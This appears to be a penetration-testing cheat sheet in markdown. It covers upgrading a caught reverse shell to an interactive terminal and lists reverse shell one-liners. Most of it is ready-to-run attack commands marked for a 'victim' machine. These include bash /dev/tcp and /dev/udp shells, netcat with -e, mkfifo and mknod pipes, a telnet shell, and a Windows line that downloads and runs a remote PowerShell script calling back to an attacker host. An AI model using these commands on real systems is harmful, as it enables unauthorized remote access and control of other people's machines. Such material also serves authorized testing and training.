 # Linux fully interactive tty
1. use python 2 or python3 `pty` module's `spawn` function
`python -c 'import pty; pty.spawn("/bin/bash")'`
`python3 -c 'import pty; pty.spawn("/bin/bash")'`
2. use `CTRL + Z` to background the shell
3. use `stty size` to view the terminal dimensions *to be used in step #7*
4. use `stty raw -echo` then `fg`
5. type `reset` even if you don't see visual feedback
6. when the reverse shell is back, set your `SHELL` and `TERM` environement variables
`export SHELL=/bin/bash`
`export TERM=xterm-256color`
7. set terminal size using `stty rows <number> columns <number>`

### one liner that checks which python version is there and goes for it:
`python2=$(which python);python3=$(which python3);if [[ -x $python2 ]];then echo "[+] python2 installed";python -c 'import pty; pty.spawn("/bin/bash")';elif [[ -x $python3 ]];then echo "[+] python3 installed";python3 -c 'import pty; pty.spawn("/bin/bash")';else echo "[-] no python installed";fi`

### another for exporting both `SHELL` and `XTERM` values:
`export SHELL=/bin/bash && export TERM=xterm-256color`

### and the last one for preparing the command for setting rows and columns
`size=$(stty size); rows=$(echo $size | cut -d' ' -f1); cols=$(echo $size | cut -d' ' -f2); echo "[*] setting stty rows to $rows and columns to $cols"; stty rows $rows columns $cols`

# Windows better tty using `rlwrap`
1. install rlwrap using `apt install rlwrap`
2. using rlwrap before your standard listener `rlwrap nc -lvnp <LPORT>`

# Windows fully interactive (Windows 10 / Windows Server 2019 version 1809)
## on attacker machine:
`stty raw -echo; (stty size; cat) | nc -lvnp <LPORT>`
## on victim machine:
`IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell <LHOST> <LPORT>`

# Bash
1. `bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1`
2. `exec 5<>/dev/tcp/<LHOST>/<LPORT>; cat <&5 | while read line; do $line 2>&5 >&5; done`

## Bash/Netcat:
`nc -nv <LHOST> <LPORT> -e /bin/bash`

## mkfifo:
`rm /tmp/pipe; mkfifo /tmp/pipe; /bin/sh -i < /tmp/pipe 2>&1 | nc <LHOST> <LPORT> > /tmp/pipe; rm /tmp/pipe`

## mknod:
`rm /tmp/pipe; mknod /tmp/pipe p 2>/dev/null && nc <LHOST> <LPORT> 0</tmp/pipe | /bin/bash 1>/tmp/pipe; rm /tmp/pipe`

## Bash UDP
1. victim: `sh -i >& /dev/udp/<LHOST>/<LPORT> 0>&1`
2. attacker: `nc -u -lvp <LPORT>`

# Telnet
`rm /tmp/pipe; mknod /tmp/pipe p && telnet <LHOST> <LPORT> 0</tmp/pipe | /bin/bash 1>/tmp/pipe; rm /tmp/pipe`